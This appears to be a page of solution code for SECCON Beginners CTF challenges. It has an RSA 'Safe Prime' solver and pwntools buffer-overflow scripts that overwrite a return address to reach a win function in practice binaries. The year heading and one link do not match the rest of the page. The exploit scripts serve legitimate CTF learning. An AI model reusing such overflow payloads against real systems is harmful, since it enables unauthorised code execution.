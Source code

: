 # SECCON Beginners CTF 2023

- https://github.com/SECCON/SECCON_Beginners_CTF_2024

## crypto

### Safe Prime

- https://www.youtube.com/watch?v=DPYlSEbIGsY&t=5m40s

#### Solution 1

```python
#!/usr/bin/env python3
from Crypto.Util.number import long_to_bytes
from sympy import symbols, Eq, solve
n = 292927367433510948901751902057717800692038691293351366163009654796102787183601223853665784238601655926920628800436003079044921928983307813012149143680956641439800408783429996002829316421340550469318295239640149707659994033143360850517185860496309968947622345912323183329662031340775767654881876683235701491291
c = 40791470236110804733312817275921324892019927976655404478966109115157033048751614414177683787333122984170869148886461684367352872341935843163852393126653174874958667177632653833127408726094823976937236033974500273341920433616691535827765625224845089258529412235827313525710616060854484132337663369013424587861
e = 65537
# q = 2 * p + 1
# n = p * q
# c = pow(m, e, n)
p = symbols('p')
eq = Eq(n, p*(2*p + 1))
solutions = solve(eq, p)
print(f'{solutions=}')
p = int(max(solutions))
q = 2*p + 1
phi = (p - 1) * (q - 1)
d = pow(e, -1, phi)
m = pow(c, d, n)
print(long_to_bytes(m).decode())
```

## pwnable

### simpleoverflow

- https://www.youtube.com/watch?v=DPYlSEbIGsY&t=2m30s

#### Solution 1

```zsh
python3 -c "print('A'*10)"|./chall
```

#### Solution 2

```python
#!/usr/bin/env python3
from pwn import ELF, context, p64, process, remote
context.log_level = 'debug'
exe = context.binary = ELF('./chall')
# io = exe.process([exe.path])
io = remote('::1', 9000)
io.sendlineafter(b'name:', b'A'*0xe + b'B'*0x8 + p64(0x4011ef))
io.interactive()
```

### simpleoverwrite

- https://www.youtube.com/watch?v=DPYlSEbIGsY&t=17m30s

#### Solution 1

```python
#!/usr/bin/env python3
from pwn import ELF, context, p64, process
# context.log_level = 'debug'
exe = context.binary = ELF('./chall')
io = process([exe.path])
io.sendlineafter(b'input:', b'A'*0xa + b'B'*8 + p64(exe.sym.win))
io.interactive()
```

## web

#### wooorker

- https://github.com/SECCON/SECCON_Beginners_CTF_2024/tree/main/crypto/Safe%20Prime

